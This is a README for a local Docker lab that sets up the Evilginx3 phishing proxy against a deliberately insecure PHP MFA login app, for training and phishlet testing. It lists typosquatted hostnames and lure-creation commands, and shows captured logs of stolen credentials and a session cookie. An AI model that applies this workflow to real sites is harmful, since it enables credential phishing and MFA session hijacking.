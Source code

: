 # Evilginx LAB on Docker
![back](evil-dock.jpg)

## Disclaimer
As you can imagine, this lab was created solely and exclusively for the purposes outlined below, and absolutely not for any malicious activity. Of course, I disclaim any responsibility for the improper use of the material contained in this repository.
The containers must absolutely not be exposed to a public network.

Please note that the comments inside files are in italian.

## Why?
I created a local lab to test Evilginx without the need to purchase a domain or presumably a VPS. It is useful for the following use cases:
1. Study and practice
2. Phishlet development and testing
3. Demonstrations and training activities

## Lab architecture
The lab consists of two Linux Docker containers. One hosts a simple PHP application that implements an MFA login process. The application is completely insecure, so it is strongly recommended not to expose it to the Internet and not to use the code in real-world applications. The second container hosts the Evilginx3 server.
You can find the static parameters to access the web application in <b>/app/login-config.php</b>

## Objective
Our goal is to intercept the authentication tokens (cookies) needed to hijack the user's session. It's very straightforward.

## Build & run the containers
Clone this repo and enter the directory, then execute:
	
	sudo docker-compose up --build -d --force-recreate --remove-orphans
	Building apache-php
	[+] Building 1.1s (11/11) FINISHED
	...
	Building evilginx2
	[+] Building 1.1s (10/10) FINISHED   
	...
	Creating targetsite.local ... done
	Creating targetsile.local ... done

	
Verify the containers:

	sudo docker ps
	CONTAINER ID   IMAGE                          COMMAND                  CREATED          STATUS          PORTS               NAMES
	636fa17740bf   evilginx_lab-main_apache-php   "apachectl -D FOREGR…"   41 minutes ago   Up 41 minutes   80/tcp, 443/tcp     targetsite.local
	2c595290c650   evilginx_lab-main_evilginx2    "/bin/bash -l"           41 minutes ago   Up 41 minutes   443/tcp, 8080/tcp   targetsile.local


## Mimic DNS
Modify hosts file in your host machine. Add the following lines:

	172.18.0.20 	targetsite.local login.targetsite.local
	172.18.0.10	targetsile.local login.targetsile.local
	
Visit the Legitimate site at: https://login.targetsite.local, with a bit of typo-squatting, the evil site will be https://login.targetsile.local


## Start evilnginx
Enter Evilginix container shell

	sudo docker exec -it /targetsile.local /bin/bash
Then start Evilginix in developer mode, in this mode, instead of trying to obtain LetsEncrypt SSL/TLS certificates, it will automatically generate self-signed certificates.
```bash  

root@e279e8098a4d:/evilginx2# ./evilginx2 -debug -developer

                                         
                                             ___________      __ __           __               
                                             \_   _____/__  _|__|  |    ____ |__| ____ ___  ___
                                              |    __)_\  \/ /  |  |   / __ \|  |/    \\  \/  /
                                              |        \\   /|  |  |__/ /_/  >  |   |  \>    < 
                                             /_______  / \_/ |__|____/\___  /|__|___|  /__/\_ \
                                                     \/              /_____/         \/      \/
                                         
                                                        - --  Community Edition  -- -
                                         
                                               by Kuba Gretzky (@mrgretzky)     version 3.3.0
                                         

[15:32:34] [inf] Evilginx Mastery Course: https://academy.breakdev.org/evilginx-mastery (learn how to create phishlets)
[15:32:34] [inf] debug output enabled
[15:32:34] [inf] loading phishlets from: /evilginx2/phishlets
[15:32:34] [inf] loading configuration from: /root/.evilginx
[15:32:34] [inf] blacklist mode set to: unauth
[15:32:34] [inf] unauthorized request redirection URL set to: https://www.youtube.com/watch?v=dQw4w9WgXcQ
[15:32:34] [inf] https port set to: 443
[15:32:34] [inf] dns port set to: 53
[15:32:34] [inf] autocert is now enabled
[15:32:34] [inf] blacklist: loaded 0 ip addresses and 0 ip masks
[15:32:34] [war] server domain not set! type: config domain <domain>
[15:32:34] [war] server external ip not set! type: config ipv4 external <external_ipv4_address>

+-------------------+-----------+-------------+-----------+-------------+
|     phishlet      |  status   | visibility  | hostname  | unauth_url  |
+-------------------+-----------+-------------+-----------+-------------+
| example           | disabled  | visible     |           |             |
| targetsite-local  | disabled  | visible     |           |             |
+-------------------+-----------+-------------+-----------+-------------+

:  


```
                                        
## Config Evilngnix container

	: config domain targetsile.local
	: config ipv4 172.18.0.10
	: phishlets hostname targetsite-local targetsile.local
	: phishlets get-hosts targetsite-local 
		172.18.0.10 login.targetsile.local
		172.18.0.10 targetsile.local
		
	: phishlets enable  targetsite-local 
	: lures create targetsite-local 
	: lures
		+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
		| id  |     phishlet      | hostname  |   path     | redirector  | redirect_url  | paused  |  og   |
		+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
		| 0   | targetsite-local  |           | /AhsTYOfa  |             |               |         | ----  |
		+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
 
	: lures get-url 0
		https://login.targetsile.local/AhsTYOfa
## Visit the malicious URL


## Capturing the session token
```bash 
: 2024/12/04 21:32:08 [001] WARN: Cannot handshake client login.targetsite.local remote error: tls: unknown certificate authority
[21:32:33] [imp] [0] [targetsite-local] new visitor has arrived: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0 (172.18.0.1)
[21:32:33] [inf] [0] [targetsite-local] landing URL: https://login.targetsile.local/AhsTYOfa
[21:33:14] [+++] [0] Username: [admin]
[21:33:14] [+++] [0] Password: [test01]
[21:33:53] [+++] [0] Username: [admin]
[21:33:53] [+++] [0] Password: [Pwd Sicur@ 123]
[21:33:54] [+++] [0] detected authorization URL - tokens intercepted: /admin.php
: sessions 

+-----+-------------------+-----------+-----------------+-----------+-------------+-------------------+
| id  |     phishlet      | username  |    password     |  tokens   | remote ip   |       time        |
+-----+-------------------+-----------+-----------------+-----------+-------------+-------------------+
| 1   | targetsite-local  | admin     | Pwd Sicur@ 123  | captured  | 172.18.0.1  | 2024-12-04 21:33  |
+-----+-------------------+-----------+-----------------+-----------+-------------+-------------------+

: sessions 1

 id           : 1
 phishlet     : targetsite-local
 username     : admin
 password     : Pwd Sicur@ 123
 tokens       : captured
 landing url  : https://login.targetsile.local/AhsTYOfa
 user-agent   : Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 remote ip    : 172.18.0.1
 create time  : 2024-12-04 21:32
 update time  : 2024-12-04 21:33

[ cookies ]
[{"path":"/","domain":"login.targetsite.local","expirationDate":1764884081,"value":"jkncga8d8e6fk3igla22ugsfse--very-insecure-fixed-VALUE--DO-NOT-USE-IT-NEVER-IN-REAL-APPLICATION","name":"session_token","httpOnly":true,"hostOnly":true}]

```

## Useful Docker commands

### Stop and remove all the containers

	sudo docker stop $(docker ps -q) && sudo docker rm $(docker ps -a -q) && sudo docker image prune -a
	
### Access a shell's container

	sudo docker exec -it <container name> /bin/bash

### Check mounted volumes

	sudo docker inspect <container name> | grep Mounts -A 10
	

## Inspect logs

	sudo docker logs <container name>
	
### Show containers IP

	sudo docker ps -q | xargs -n 1 docker inspect -f '{{.Name}} - {{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}'
	
	/targetsite.local - 172.18.0.20
	/targetsile.local - 172.18.0.10

